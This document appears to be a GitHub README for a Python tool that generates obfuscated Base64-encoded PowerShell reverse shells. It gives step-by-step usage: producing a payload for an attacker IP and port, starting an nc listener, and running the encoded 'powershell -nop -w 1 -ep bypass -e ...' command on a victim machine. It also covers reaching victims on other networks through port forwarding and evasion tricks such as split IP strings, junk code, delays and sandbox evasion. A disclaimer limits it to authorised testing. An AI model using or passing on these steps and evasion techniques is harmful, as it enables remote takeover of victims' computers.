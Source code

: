 # PowerShell Reverse Shell Generator

A Python-based utility for generating obfuscated Base64-encoded PowerShell reverse shells.

## Features
- IP/Port configuration through command-line arguments
- Automatic Base64 encoding with proper UTF-16LE conversion
- Basic anti-analysis patterns
- Error handling integration

## Prerequisites
- Python 3.6+
- PowerShell 5.0+

## IP Configuration
To get your IP address on your local Ubuntu machine, use one of the following methods:

1. Get Your Local (Private) IP Address (for LAN use)
Run:

```bash
ip a
```
or 

```bash
hostname -I
```
This will show the IP assigned by your router (e.g., 192.168.x.x or 10.x.x.x).

1. Get Your Public IP Address (for WAN use)
Run:

```bash
curl ifconfig.me
```
or

```bash
curl -s http://checkip.amazonaws.com
```
This will show the public IP assigned by your ISP, which is needed if you're connecting from an external network.

Note:

If you want a victim from another network to connect to your machine, use your public IP and ensure your router forwards the listening port to your local machine.

If the victim is on the same network, use your local IP instead.

## Usage

1. Clone the repository:
```bash
git clone https://github.com/Ethixlucifer/powershell-win1.git
cd powershell-win1
```

2. Generate payload:
```bash
python rshell.py -i 192.168.1.100 -p 2222
```

3. Start listener (on attacker machine):
```bash
nc -nvlp 2222
```

4. Execute generated command on target machine

## Example Output
```powershell
powershell -nop -w 1 -ep bypass -e JABJAFQAPQAnADE...
```

## Customization Options
- Split IP address strings (e.g., `'192.168'+'.1.100'`)
- Add junk code between script blocks
- Modify the PS> prompt pattern
- Implement time-based execution delays

## Important Notes
- Always test payloads in controlled environments
- Use proper network encryption (SSL/TLS)
- Consider adding sandbox evasion techniques
- Maintain strict version control for detection testing

## Legal Disclaimer
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Security research

Always obtain proper authorization before using this tool against any network or system.